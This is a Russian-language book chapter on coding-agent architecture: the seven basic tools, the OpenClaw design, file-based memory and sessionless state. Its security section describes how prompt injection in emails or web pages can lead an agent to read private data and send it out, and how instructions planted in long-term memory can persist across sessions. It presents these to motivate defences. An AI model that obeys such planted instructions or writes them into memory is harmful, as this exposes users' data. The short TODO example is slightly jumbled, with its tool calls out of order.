










# Coding Agent и генерация кода

Предыдущие главы были посвящены Context Engineering (контекстная инженерия) (главы 2 и 3) и проектированию инструментов (глава 4). В этой главе мы объединим эти компоненты, чтобы ответить на ключевой вопрос: **как выглядит архитектура универсального Agent (агент), способного решать произвольные задачи?**

Ответ таков: **универсальный Agent, ориентированный на открытые задачи**, в своей основе представляет собой **Coding Agent** (агент, способный автономно писать, изменять и исполнять код) в сочетании с **файловой системой** — рабочим пространством, которое Agent использует для хранения кода, данных, памяти и промежуточных результатов, подобно тому как программист управляет проектами с помощью папок на компьютере. Этот вывод подтвержден промышленной практикой: от Manus до OpenClaw, успешные универсальные Agent для открытых задач следуют одной и той же парадигме: использование небольшого набора универсальных инструментов (исполнение кода, чтение/запись файлов, поиск) для создания среды выполнения Coding Agent, поверх которой накладываются модули возможностей, такие как автоматизация браузера, поиск в сети и другие. Границы применимости этого вывода будут отдельно обсуждены в конце раздела «От Manus до OpenClaw».

Почему генерация кода способна взять на себя столь важную роль? Потому что это не просто один из инструментов в наборе, а своего рода **мета-способность** — умение динамически создавать новые инструменты и возможности во время выполнения. Во второй половине этой главы (раздел «Код: мета-способность универсального Agent») эта концепция и шесть направлений ее реализации будут раскрыты полностью.

Ценность кода для Agent проявляется на двух уровнях. В плане **мышления** формализованный код обеспечивает высокую строгость рассуждений: описание «возраст более 18 лет и пройдена верификация» на естественном языке может иметь несколько интерпретаций, тогда как запись `age > 18 and is_verified` не оставляет места для двусмысленности. В плане **выражения** фрагмент работающего кода сам по себе является доказательством логической непротиворечивости, а результат его выполнения дает объективный критерий правильности — чего невозможно достичь с помощью естественного языка.

Эта глава начнется с базовых возможностей Coding Agent и архитектуры универсального Agent (OpenClaw), а затем продемонстрирует применение генерации кода в различных сценариях — от математического мышления и создания контента до мета-способностей системного уровня.

### Coding — базовая способность Agent

**Генерация кода не является прерогативой лишь немногих специализированных Agent, это базовая способность, которой должен обладать каждый универсальный Agent**. Благодаря поддержке современных SOTA-моделей (State-of-the-Art) наличие базовых навыков coding не требует сложной архитектуры.

Рассмотрим типичную задачу: «Собрать все оставшиеся комментарии TODO в репозитории, классифицировать их по приоритету и создать issue». Для выполнения этого требуется: просмотр структуры каталогов (ls/glob), чтение кода (read), модификация файлов (edit/write), выполнение команд (bash), поиск паттернов (grep/search). Эти пять типов операций охватывают почти все основные действия Coding Agent и являются источником семи инструментов, о которых пойдет речь ниже. Строго говоря, эти пять типов операций естественным образом соответствуют шести инструментам; седьмой, Code Interpreter, соответствует таким операциям, как «исполнение кода / вычисления», и в некоторых реализациях он просто объединяется с Bash. Семь инструментов — это стандартизированный справочный набор, и им не обязательно строго соответствовать пяти типам операций «один к одному».

Базовый Coding Agent должен быть оснащен следующими семью основными инструментами:

1. **Code Interpreter (интерпретатор кода)**: предоставляет изолированную среду — Sandbox (песочница, то есть безопасное пространство для выполнения, изолированное от основной системы; код в нем запускается так, что даже в случае ошибки это не повлияет на хост-машину) для безопасного выполнения кода на Python.
2. **Bash Shell (командный терминал)**: выполнение команд в терминале, таких как запуск тест-кейсов или обработка файлов специфических форматов.
3. **Инструмент чтения файлов**: чтение кода, конфигураций, документации, логов и т. д.
4. **Инструмент записи файлов**: создание новых файлов или полная перезапись существующих.
5. **Инструмент редактирования файлов**: внесение локальных изменений в существующие файлы — ключевая операция для поддержки и итерации кода.
6. **Инструмент поиска имен файлов (Glob)**: быстрое определение местоположения целевых файлов в файловой системе с помощью сопоставления с паттерном, например, использование `**/*.py` для поиска всех файлов Python в проекте.
7. **Инструмент поиска содержимого файлов (Grep)**: поиск определенных текстовых паттернов внутри файлов, например, поиск всех строк кода, вызывающих определенную функцию.

Эти семь инструментов образуют полный, но минималистичный инструментарий, который может быть с низкими затратами интегрирован практически в любую систему Agent. Технически они могут быть представлены как стандартизированные сервисы инструментов через протокол MCP, описанный в четвертой главе. Обратите внимание, что этот набор инструментов является специфической базовой конфигурацией для Coding Agent и отличается от пяти категорий универсальных инструментов (восприятие / исполнение / совместная работа / триггеры событий / общение с пользователем), классифицированных в четвертой главе по направлению вызова и характеру действия. Семь основных инструментов в основном охватывают категории восприятия и исполнения. Читатель может спросить: а как же потребности в совместной работе, триггерах событий и общении с пользователем? В Coding Agent они обычно обрабатываются на уровне фреймворка Agent (а не на уровне инструментов); например, делегирование задач дочерним Agent управляется логикой оркестровки фреймворка, а не через специализированные инструменты совместной работы.

Посмотрим на простейшем примере, как эти семь инструментов взаимодействуют друг с другом. Предположим, пользователь говорит: «Помоги мне собрать все комментарии TODO в проекте в один список»:

## Coding Agent

```
Результат инструмента:
Agent (思考 — рассуждение): Нашел 3 TODO, оформлю их в список и запишу в файл.
Agent → `Write("TODO_LIST.md", content="...")`   # Запись файла
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Результат инструмента: Файл создан
Agent: Все готово. Обнаружено 3 пункта TODO, список сохранен в TODO_LIST.md.



```

Весь процесс задействовал только два инструмента: Grep (поиск контента) и Write (запись файла). Если задача становится сложнее — например, «подсчитать количество TODO в каждом модуле и построить гистограмму» — Agent (агент) дополнительно использует Code Interpreter для выполнения Python-кода, чтобы провести расчеты и визуализацию. Хотя эти семь инструментов просты, их комбинация позволяет выполнять самые разнообразные задачи.

Почему каждый универсальный Agent должен обладать навыками coding (программирование)? Потому что генерация кода — это не просто написание программ, это универсальный способ решения проблем. Столкнувшись с математическими рассуждениями, можно написать фрагмент кода и передать его решателю для получения точного ответа; когда нужно закрепить бизнес-правила, код оказывается гораздо точнее описания на естественном языке; если не хватает какого-то инструмента, его можно временно написать самому; если изменился формат данных — динамически сгенерировать логику парсинга. В последующих разделах этой главы мы подробно разберем каждый из этих сценариев. Agent, обладающий базовыми навыками coding, даже имея в своем распоряжении всего семь вышеупомянутых простых инструментов, способен динамически расширять границы своих возможностей при появлении новых требований.

### Кейс: От Manus до OpenClaw — Coding-ядро универсального Agent

Продукты класса универсальных Agent, ярким представителем которых является Manus, объединяют в одной системе три ключевые способности: Deep Research (глубокое исследование), Computer Use (управление компьютером) и Coding (генерация кода). Это подчеркивает инсайт, неоднократно подтвержденный различными практиками: **Coding Agent в сочетании с файловой системой является важнейшим технологическим фундаментом для универсальных Agent, ориентированных на выполнение открытых задач**. Open-source проект OpenClaw придерживается аналогичного подхода, демонстрируя эту архитектурную парадигму на практике.

Почему именно Coding Agent является ядром, а не два других компонента? Потому что практически любая эффективная генерация контента в конечном итоге сводится к коду. Презентация PPT по сути представляет собой код в формате OOXML (Office Open XML, открытый стандарт офисных документов, представленный Microsoft); документы Word и отчеты PDF могут создаваться программно; анализ данных и визуализация выполняются с помощью Python-скриптов; даже успешные последовательности действий в браузере при управлении через GUI могут быть зафиксированы в виде переиспользуемого кода RPA (роботизированная автоматизация процессов, Robotic Process Automation) (подробнее о Computer Use см. в главе 9, а о механизмах фиксации последовательностей действий — в главе 8). Поиск и синтез информации в Deep Research могут быть реализованы через управляемые кодом веб-запросы и парсинг. Хотя Computer Use обладает большей универсальностью, его стоимость, задержки и стабильность значительно уступают выполнению тех же операций напрямую через код или API. Генерация кода — это наиболее эффективный, низкозатратный и пригодный для повторного использования фундамент возможностей.

Разберем эту архитектуру на конкретном потоке выполнения. Предположим, пользователь просит: «Help me analyze last quarter's sales data and create a summary report» (Помоги мне проанализировать данные о продажах за прошлый квартал и составить сводный отчет):

1.  **Чтение памяти**: Agent читает `MEMORY.md` и обнаруживает, что пользователь предпочитает отчеты в формате PDF, а источником данных является Google Sheets.
2.  **Вызов инструментов**: Через модуль веб-поиска получает инструкции по использованию Google Sheets API и с помощью исполнения кода скачивает данные.
3.  **Написание кода**: Пишет на Python скрипт для анализа данных (агрегация в pandas, визуализация в matplotlib).
4.  **Генерация результата**: Записывает результаты анализа в `report.pdf`, а графики — в директорию `charts/`.
5.  **Обновление памяти**: Записывает в `MEMORY.md`: «Данные о продажах пользователя находятся в Google Sheets, ID: xxx», чтобы не спрашивать об этом в следующий раз.

В этом процессе файловая система служит узлом обмена информацией: память считывается из файла, результат записывается в файл, и накопленный опыт также сохраняется в виде файла.

**Файловая система как центр управления Agent**. В дизайне OpenClaw файловая система — это гораздо больше, чем просто хранилище данных; это центр памяти, знаний и способностей Agent. Долговременная память Agent хранится в `MEMORY.md` (высокоуровневые факты и предпочтения пользователя) и в логах формата Markdown, архивируемых по датам. Выбор Markdown вместо векторной базы данных может показаться контринтуитивным, но на практике он крайне эффективен: пользователь может напрямую открыть файл, чтобы прочитать или отредактировать память Agent (если Agent что-то запомнил неверно, достаточно просто удалить эту строку). Markdown естественным образом сохраняет хронологический порядок, избегая временной путаницы, характерной для семантического поиска, и позволяет использовать Git для контроля версий и отката изменений.

Что еще более важно, наличие у Agent возможности записи файлов означает, что он может **самоэволюционировать** через этот процесс. Когда Agent впервые выполняет задачу и обнаруживает ранее неизвестную ключевую информацию (например, при звонке в банк выясняется, что для подтверждения личности требуется адрес отделения, где открыт счет), он записывает этот опыт в базу знаний, и при следующем выполнении аналогичной задачи информация загрузится автоматически. Этот механизм «чем больше используешь, тем умнее становится» по сути является практическим воплощением парадигмы экстернализированного обучения, которая будет подробно обсуждаться в восьмой главе.



**Границы применимости: для каких Agent программный код является основой архитектуры**. Утверждение о том, что «Coding Agent (агент-кодер) является ядром универсального Agent», применимо в первую очередь к универсальным агентам, ориентированным на **открытые задачи** — глубокие исследования, генерацию контента, обработку данных и другие сценарии, где границы задач не определены, а формы результата разнообразны. В таких сценариях невозможно заранее перечислить все необходимые инструменты, и Code Generation (генерация кода) как мета-способность обеспечивает наиболее экономичный путь для динамического расширения границ возможностей, становясь центром архитектуры. Другая категория агентов — узкоспециализированные сервисные агенты поддержки или голосовые помощники — имеют относительно закрытое пространство задач. Их основная архитектура строится вокруг фиксированных бизнес-процессов, доменных инструментов и стратегий диалога, где код выступает скорее как один из инструментов в наборе, а не как архитектурный центр (в примере с τ-bench (базовый тест, имитирующий сценарии обслуживания клиентов, подробнее см. далее), приведенном далее в этой главе, код играет роль инструмента проверки политик). Но даже в последнем случае Coding (программирование) остается незаменимой базовой способностью: точные вычисления, обработка данных и проверка правил невозможны без него. Это перекликается с тезисом из предыдущего раздела «Coding — это базовая способность Agent»: использование кода в качестве основы архитектуры зависит от сценария, но наличие способностей к программированию — это общий необходимый минимум для всех агентов.

### Sessionless-проектирование

Далее мы обсудим два аспекта проектирования: способ взаимодействия «всегда под рукой» и архитектуру безопасности. На первый взгляд они не связаны с темой Coding Agent. Однако они напрямую определяют, как Agent управляет средой выполнения кода и состоянием файловой системы, что является ключевым вопросом для агентов-кодеров. (Читатели, желающие сначала понять, как пошагово работает Coding Agent, могут перейти к разделу «Общий процесс работы Coding Agent», а затем вернуться сюда для изучения вопросов взаимодействия и безопасности).

OpenClaw использует **Sessionless** (без сессий) дизайн: здесь нет этапов установки, входа в систему или «открытия приложения». Agent постоянно находится в сети, и пользователь может получить ответ в любое время, просто отправив сообщение через привычную платформу мессенджеров. Эта форма взаимодействия, а также стоящие за ней маршрутизация сообщений через Gateway (шлюз) и событийно-ориентированная архитектура, подробно обсуждались в четвертой главе в части, посвященной инструментам коммуникации с пользователем, поэтому здесь мы не будем на них останавливаться. Важно подчеркнуть предпосылку жизнеспособности такой формы: LLM (большие языковые модели) уже достаточно созрели, чтобы выступать в роли нового «интеллектуального фундамента». Подобно тому как традиционные операционные системы скрывают аппаратное обеспечение и предоставляют единую абстракцию для приложений верхнего уровня, LLM скрывают сложность понимания языка и планирования рассуждений, предоставляя единую интеллектуальную абстракцию для агентов. Именно благодаря этому слою фундамент в виде формы «постоянное присутствие + мгновенный отклик» стало возможным реализовать инженерно с низкими затратами.

Для Coding Agent настоящая инженерная сложность Sessionless-дизайна заключается в том, **как состояние среды выполнения кода и файловой системы сохраняется между сообщениями**. Между двумя сообщениями пользователя может пройти как несколько минут, так и несколько дней, в то время как работа Agent зависит от множества неявных состояний: установленных зависимостей в Sandbox (песочница), рабочего каталога и переменных окружения в терминальной сессии, фоновых серверов разработки, наполовину написанных файлов. Подход OpenClaw заключается в разделении управления состоянием на два уровня. **Состояние файловой системы персистентно по своей природе** — директория Workspace (рабочая область) монтируется на постоянное хранилище вне песочницы, поэтому код, данные и промежуточные результаты не теряются при пересылке сообщений или перезапуске песочницы. В этом заключается еще один смысл фразы «файловая система как центр Agent». **Состояние процессов сохраняется или восстанавливается по требованию** — песочница и терминальные сессии в ней остаются активными в периоды работы, чтобы избежать холодного запуска, повторного переключения директорий и активации виртуальных окружений для каждого сообщения. При простое по истечении таймаута они уничтожаются для высвобождения ресурсов, но перед уничтожением сериализуемые состояния среды (рабочий каталог, переменные окружения, список фоновых задач) записываются в файлы рабочей области, чтобы при следующем пробуждении Agent мог восстановить их по записям. Обсуждаемые далее в этой главе «Персистентные терминальные сессии» в контексте выполнения команд являются аналогом этого механизма внутри одной задачи; Sessionless растягивает ту же проблему на временную шкалу, охватывающую разные сообщения и дни.

Sessionless также не означает отсутствие обслуживания — это подразумевает, что при каждом сообщении пользователя необходимо **заново загружать полную траекторию и рабочее состояние**, что предъявляет повышенные требования к эффективности сериализации состояния и стратегиям сжатия траектории. Принципы проектирования Context Compression (сжатие контекста) уже обсуждались во второй главе, в этой же главе акцент сделан на инженерных компромиссах в рамках Sessionless-архитектуры.

### Три роковых фактора, долгосрочная память и стратегии прав доступа

Парадигма «суверенного интеллектуального агента» также несет в себе серьезные вызовы безопасности. Coding Agent обладает правами на чтение и запись файлов, выполнение команд и доступ к сети, что означает возможность необратимого ущерба в случае внедрения вредоносных инструкций. Разработчик и независимый исследователь Simon Willison резюмировал эти риски в виде знаменитых «трех роковых факторов» — если присутствуют все три, формируется замкнутый цикл атаки, и система считается критически опасной:

1. **Доступ к частным данным** — Agent может читать файлы пользователя и менеджеры паролей.
2. **Воздействие недоверенного контента** — обрабатываемые электронные письма и веб-страницы могут содержать вредоносную нагрузку.
3. **Возможность внешней коммуникации** — способность отправлять почту и выполнять команды.

На этом путь атаки замыкается: вредоносные инструкции, спрятанные в недоверенном контенте, попадают в Agent (агент), заставляют его считывать конфиденциальные данные и затем передавать их через внешние каналы связи. Заметьте, что наличия этих трех элементов самих по себе уже достаточно для возникновения серьезной опасности, никакие дополнительные условия не требуются. В дополнение к этому я выделю четвертое измерение — **перманентную память**. Это не четвертое обязательное условие того же уровня, а скорее «усилитель» атаки: злоумышленник может записать кажущиеся безобидными предвзятости или вредоносные инструкции в долгосрочную память Agent, где они будут скрыто существовать между сессиями и сработают в подходящий момент, превращая разовую атаку в длительное скрытое присутствие и масштабирование угрозы.

Эти четыре пункта можно обобщить как четыре типа границ: границы данных, границы доверия к вводу, границы влияния вывода и межсессионные границы. Локальные Agent с полными правами доступа, такие как OpenClaw, как раз обладают всеми четырьмя характеристиками, поэтому обеспечение безопасности становится ключевым вызовом, который такие Agent должны учитывать в первую очередь.

Это также объясняет, почему закрытые коммерческие Agent (например, Claude Cowork — универсальный Agent от Anthropic для интеллектуальной работы, использующий agentic-архитектуру Claude Code и способный читать/записывать локальные файлы, а также выполнять многошаговые задачи в различных офисных приложениях) выбирают консервативные стратегии разграничения прав — дело не в технических ограничениях, а в слишком высоких рисках безопасности. Перед лицом угрозы Prompt Injection (промпт-инъекция) простая фильтрация ввода практически бесполезна. Важно не столько распознать все атаки, сколько лишить Agent возможности реально выполнить опасное действие, даже если инъекция произошла. Система защиты была послойно выстроена в предыдущих двух главах: **защита на уровне контекста** — маркировка источников внешнего контента, изоляция структурированных ролей, очистка ввода (см. раздел о Prompt Injection во второй главе); **защита на уровне исполнения** — независимая проверка через Sidecar, Human in the loop (человек в контуре), принцип минимальных привилегий и разделение полномочий (см. четвертую главу). Находясь внутри одного контекста, Agent крайне сложно определить, была ли в него произведена инъекция, поэтому критические операции должны проверяться механизмами вне этого контекста — этот принцип проходит сквозь обе главы. В данной главе я добавлю лишь три специфических для Coding Agent (агент для написания кода) дополнения:

- **Семантический анализ команд** — комбинаторный взрыв Shell-команд делает черные списки ключевых слов бесполезными; необходимо понимать реальный эффект команды на семантическом уровне (подробнее об этом в разделе «Инженерия Harness» далее в этой главе);
- **Изоляция в песочнице и контроль сетевого выхода** — выполнение кода является уникальной поверхностью атаки для Coding Agent; инженерный выбор уровней изоляции и стратегий выхода описан в следующем разделе;
- **Межсессионный рубеж защиты перманентной памяти** — это расширение, которое в данной главе подчеркивается особо, помимо «трех смертоносных элементов»: контент, записываемый в долгосрочную память, должен проходить такую же проверку на доверие, как и внешний контент, чтобы вредоносные инструкции не могли скрыто закрепиться в `MEMORY.md` на длительный срок.

Эти три дополнения распределены по уровням верификации, исполнения и данных, дополняя систему защиты из предыдущих глав. Эти стратегии не могут полностью устранить риски, но способны значительно сократить поверхность атаки Agent.

